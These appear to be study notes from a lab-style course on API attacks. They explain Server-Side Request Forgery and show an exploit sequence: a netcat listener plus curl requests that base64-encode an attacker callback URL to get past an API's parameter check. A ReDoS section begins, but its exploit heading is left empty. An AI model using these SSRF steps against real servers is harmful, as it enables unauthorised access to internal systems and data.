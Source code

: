 Server-Side Request Forgery (SSRF) attacks, listed in the OWASP top 10, allow us to abuse server functionality to perform internal or external resource requests on behalf of the server. We usually need to supply or modify URLs used by the target application to read or submit data. Exploiting SSRF vulnerabilities can lead to:

- Interacting with known internal systems
- Discovering internal services via port scans
- Disclosing local/sensitive data
- Including files in the target application
- Leaking NetNTLM hashes using UNC Paths (Windows)
- Achieving remote code execution

We can usually find SSRF vulnerabilities in applications or APIs that fetch remote resources. Our Server-side Attacks module covers SSRF in detail.

As we have mentioned multiple times, though, we should fuzz every identified parameter, even if it does not seem tasked with fetching remote resources.

Let us assess together an API that is vulnerable to SSRF.

## Exploit

```shell
$ nc -nlvp 1337 # in un altro terminale

$ curl http://$TARGET:$TARGET_PORT/api/userinfo
{"success":false,"error":"'id' parameter is not given."}

$ curl "http://$TARGET:$TARGET_PORT/api/userinfo?id=http://$MYIP:1337"
{"success":false,"error":"'id' parameter is invalid."}

$ echo "http://$MYIP:1337" | tr -d '\n' | base64
aHR0cDovLzEwLjEwLjE0LjI3OjEzMzc=

$ curl "http://$TARGET:$TARGET_PORT/api/userinfo?id=aHR0cDovLzEwLjEwLjE0LjI3OjEzMzc="
```

# Regular Expression Denial of Service (ReDoS)

Suppose we have a user that submits benign input to an API. On the server side, a developer could match any input against a regular expression. After a usually constant amount of time, the API responds. In some instances, an attacker may be able to cause significant delays in the API's response time by submitting a crafted payload that tries to exploit some particularities/inefficiencies of the regular expression matching engine. The longer this crafted payload is, the longer the API will take to respond. Exploiting such "evil" patterns in a regular expression to increase evaluation time is called a Regular Expression Denial of Service (ReDoS) attack.

visualizzazione delle espressioni regolari
https://jex.im/regulex/#!flags=&re=%5E(%5Ba-zA-Z0-9_.-%5D)%2B%40((%5Ba-zA-Z0-9-%5D)%2B.)%2B(%5Ba-zA-Z0-9%5D%7B2%2C4%7D)%2B%24

## Exploit
